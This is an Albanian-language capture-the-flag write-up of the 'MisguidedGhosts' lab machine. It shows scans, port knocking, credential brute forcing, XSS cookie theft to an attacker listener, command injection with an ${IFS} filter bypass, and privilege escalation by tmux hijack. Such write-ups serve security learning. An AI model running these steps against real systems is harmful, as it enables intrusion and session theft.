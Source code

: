 # MisguidedGhosts

Skanojme IP me nmap. Portat 21 dhe 22 tcp jane hapur.
```
nmap -sCV 10.10.132.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 22:14 CEST
Nmap scan report for 10.10.132.38
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.75.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:91:89:96:af:bc:06:b9:8d:43:df:53:dc:1f:8f:12 (RSA)
|   256 25:0b:be:a2:f9:64:3e:f1:e3:15:e8:23:b8:8c:e5:16 (ECDSA)
|_  256 09:59:9a:84:e6:6f:01:f3:33:8e:48:44:52:49:14:db (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
                                                                                                                     
```
FTP lejon logimin si anonim dhe brenda ndodhen disa file interesante.
```
ftp 10.10.132.38            
Connected to 10.10.132.38.
220 (vsFTPd 3.0.3)
Name (10.10.132.38:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10568|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||65006|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           103 Aug 28  2020 info.txt
-rw-r--r--    1 ftp      ftp           248 Aug 26  2020 jokes.txt
-rw-r--r--    1 ftp      ftp        737512 Aug 18  2020 trace.pcapng
226 Directory send OK.
```
Nga hintet qe ndodhen brenda fileve kuptojme qe duhet perdorur knock. Perdorim knock per te evituar masen e sigurise port knocking. Portat i gjejme ne pcap me wireshark.
```
cat jokes.txt     
Taylor: Knock, knock.
Josh:   Who's there?
Taylor: The interrupting cow.
Josh:   The interrupting cow--
Taylor: Moo

Josh:   Knock, knock.
Taylor: Who's there?
Josh:   Adore.
Taylor: Adore who?
Josh:   Adore is between you and I so please open up!
```

![Wireshark_1](https://github.com/zagnox/MisguidedGhosts/assets/144890045/66c6d0f3-5292-4be8-809d-ddfd9d951e7a)

```
knock 10.10.132.38 7864 8273 9241 12007 60753
```
Pasi kryejme port knocking dhe skanojme serish shohim qe porta 8080 eshte hapur dhe sherbimi.
```
8080/tcp open  ssl/http Werkzeug httpd 1.0.1 (Python 2.7.18)
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
|_ssl-date: TLS randomness does not represent time
|_http-title: Misguided Ghosts
| ssl-cert: Subject: commonName=misguided_ghosts.thm/organizationName=Misguided Ghosts/stateOrProvinceName=Williamson Country/countryName=TN
| Not valid before: 2020-08-11T16:52:11
|_Not valid after:  2021-08-11T16:52:11
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Ne browser shohim nje website minimalist. Perdorim gobuster per te kryer directory brute forcing.
![webapp](https://github.com/zagnox/MisguidedGhosts/assets/144890045/3f587f78-376f-4482-a839-6bfbe5f2956c)

```
gobuster dir -u https://10.10.132.38:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.132.38:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login
```
Sqlmap tregon qe nuk ka mundesi per sql injection prandaj mbetet te tentojme brute forcing. krijojme nje wordlist me username potencial dhe provojme teknika te ndryshme me burp intruder. Duke perdorur intruderin me battering ram attack gjejme kredencialet zac:zac
```
cat users.txt
admin
administrator
josh
taylor
adore
zac
```
![intruder](https://github.com/zagnox/MisguidedGhosts/assets/144890045/c9ca1530-064a-4d4f-bb5e-4ed60fa8a828)

Logohemi me kredencialet e gjetura dhe hyjme ne dashboard ku mund te krijojme postime

![webapp_dashboard](https://github.com/zagnox/MisguidedGhosts/assets/144890045/c3c131f6-e3a1-494e-b2b8-5581ba297d34)

Tentojme XSS dhe SSTI me burp intruder per te gjetur vulnerabilitete. Me burpsuite arrijme te dallojme nje xss qe eshte patchuar. Tentojme te shmangim filtrat dhe arrijme te gjejme nje payload qe funksionon.

![burp_bugXSS](https://github.com/zagnox/MisguidedGhosts/assets/144890045/74dd6b91-2b6c-4721-b132-b641c145e8dd)

![xss_Pwn3d](https://github.com/zagnox/MisguidedGhosts/assets/144890045/78053456-037c-47d7-955a-ba5e3218980d)

10. Duke qene se webi eshte vulnerabel ndaj XSS hapi i rradhes eshte te kapim cookien e adminit dhe ta dergojme me nje request drejt IP tone.

```
python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.14.75.118 - - [16/Apr/2024 23:55:32] code 404, message File not found
10.14.75.118 - - [16/Apr/2024 23:55:32] "GET /XSS/grabber.php?c=login=zac_from_paramore HTTP/1.1" 404 -
10.10.132.38 - - [16/Apr/2024 23:55:56] code 404, message File not found
10.10.132.38 - - [16/Apr/2024 23:55:56] "GET /XSS/grabber.php?c=login=hayley_is_admin HTTP/1.1" 404 -
```
![hayley_login](https://github.com/zagnox/MisguidedGhosts/assets/144890045/1bcda59c-1eb7-44ee-bb6b-a121308d15a2)

Me cookien qe kapem mund te logohemi dhe kryejme directory brute forcing dhe zbulojme /photos. Kur ngarkojme dicka shohim qe ne url kemi nje parameter te quajtur image. Duke tentuar per directory traversal dhe command injection dallojme disa komanda te suksesshme.
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.132.38:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] Cookies:                 login=hayley_is_admin
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/photos
```

![command_injection](https://github.com/zagnox/MisguidedGhosts/assets/144890045/0774ed2c-e207-4fbb-9fd8-491d10564736)

Kur tentojme te marrim nje reverse shell me command injection shohim qe hapesirat filtrohen. Per te shmangur hapesirat perdorim ${IFS}
![no_space_cmd_injection](https://github.com/zagnox/MisguidedGhosts/assets/144890045/acc8304a-9cbd-42cd-9fd9-c595c8fee6bf)

14. Pasi morem shellin gjetem disa file me instruksion dhe nje rsa key ne direkotrine e Zac. Celesi rsa per ssh eshte i koduar me cipher. Per te gjetur shifren e cipherit. Pas nje kerkimi ne google kuptojme qe celesat RSA fillojne ne shumicen e rasteve me 3 karaktere MII. Duke ditur kete informacion ne mund te tentojme te bejme brute force deri sa te gjejme cipherin qe perputhet me karakteret e celesit tone.
15. Pasi kemi dekoduar celesin ne mund te hyjme me ssh si zac. Hapi tjeter eshte te eskalojme privilegjet ne root
16. Pasi kryejme kerkim automartik me linpeas shohim qe portat 22 139 dhe 445 ne localhost jane hapur dhe smb lejon logim si anonim. Perodrim ligolo-ng per te bere forward gjithe portat lokale drejt attackboxit tone.
17. Ne smb gjejme nje file me passworde te cilin e perodrim per te bere brute force ne ssh userit hayley. Pasi gjejme passwordin logohemi me ssh.
18. Serish duke perdorur linpeas shohim se nje session i tmux mund te behet hijack si root. Shkruajme komanden dhe kemi nje tmux session si root.


